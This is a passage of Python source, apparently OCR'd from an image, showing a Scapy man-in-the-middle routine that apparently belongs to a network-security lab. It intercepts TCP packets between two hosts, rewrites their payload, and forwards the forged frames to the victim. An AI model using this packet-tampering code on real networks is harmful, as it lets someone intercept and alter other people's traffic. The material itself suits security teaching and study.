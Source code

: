     print("MITM Script Started...")
    sys.stdout.flush()

    def spoof_pkt(pkt):
        # Ensure it's an IP packet containing TCP
        if not (IP in pkt and TCP in pkt):
            return

        try:
            if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
                print("-> Processing packet from A to B", end='')
                sys.stdout.flush()
                # Create a new IP packet based on the captured one
                newpkt_ip = IP(bytes(pkt[IP]))
                del(newpkt_ip.chksum) # Delete IP checksum
                if TCP in newpkt_ip:
                    del(newpkt_ip[TCP].chksum) # Delete TCP checksum

                # Construct the new payload
                if pkt[TCP].payload:
                    data = pkt[TCP].payload.load # The original payload data
                    print(f" | Original data: {data.hex()}", end='')
                    # *** THE MODIFICATION ***
                    newdata = data.replace(b'Q', b'Z')
                    print(f" | Modified data: {newdata.hex()}", end='')
                    # Remove old payload before adding new one
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                        del(newpkt_ip[TCP].payload)
                    # Construct L3+ packet
                    newpkt_L3 = newpkt_ip/newdata
                else:
                    print(" | No TCP payload.", end='')
                    # Remove old payload if it existed but was empty? Safer to ensure it's gone.
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]:
                       del(newpkt_ip[TCP].payload)
                    newpkt_L3 = newpkt_ip # Packet without payload

                # Create L2 frame and send
                newpkt_L2 = Ether(src=MAC_M, dst=MAC_B) / newpkt_L3
                sendp(newpkt_L2, iface='eth0', verbose=False)
                print(" | Sent M -> B")
                sys.stdout.flush()

